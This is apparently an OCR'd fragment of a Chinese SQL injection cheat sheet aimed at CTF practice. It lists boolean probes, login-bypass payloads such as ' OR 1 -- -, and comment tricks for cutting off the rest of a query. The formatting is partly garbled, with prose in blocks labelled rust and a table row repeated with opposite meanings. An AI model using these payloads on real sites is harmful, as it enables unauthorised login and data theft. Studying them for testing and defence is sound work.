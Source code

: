 | AND 1 | True |
| :--- | :--- |
| AND 0 | False |
| AND true | True |
| AND False | False |
| 1-false | 存在漏洞返回1 |
| 1-true | 存在漏洞返回0 |
| 1\*56 | 存在漏洞返回56 |
| 1\*56 | 不存在漏洞返回1 |

#### 

```rust
或者在参数后面加一减一，根据查询语句fuzz。
```

```rust
登录框
```

```text

登录框处可能存在万能密码登录，或者盲注之类的，一般ctf中比较常见。

查询语句：SELECT * FROM Table WHERE username = '';
常用绕过：

' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
'='
'LIKE'
'=0--+
Example：SELECT * FROM Users WHERE username = 'Mike' AND password = '' OR '' = '';
```

**注释查询**

以下内容可用于注释掉注入时查询的其余部分：

```text
#    Hash 注释
/*    c风格的注释
-- -    SQL 注释
;%00    空字节
`    反引号

Examples:
SELECT * FROM Users WHERE username = '' OR 1=1 -- -' AND password = '';
SELECT * FROM Users WHERE id = '' UNION SELECT 1, 2, 3`';

Note:
反引号只能用于在用作别名时结束查询。
```

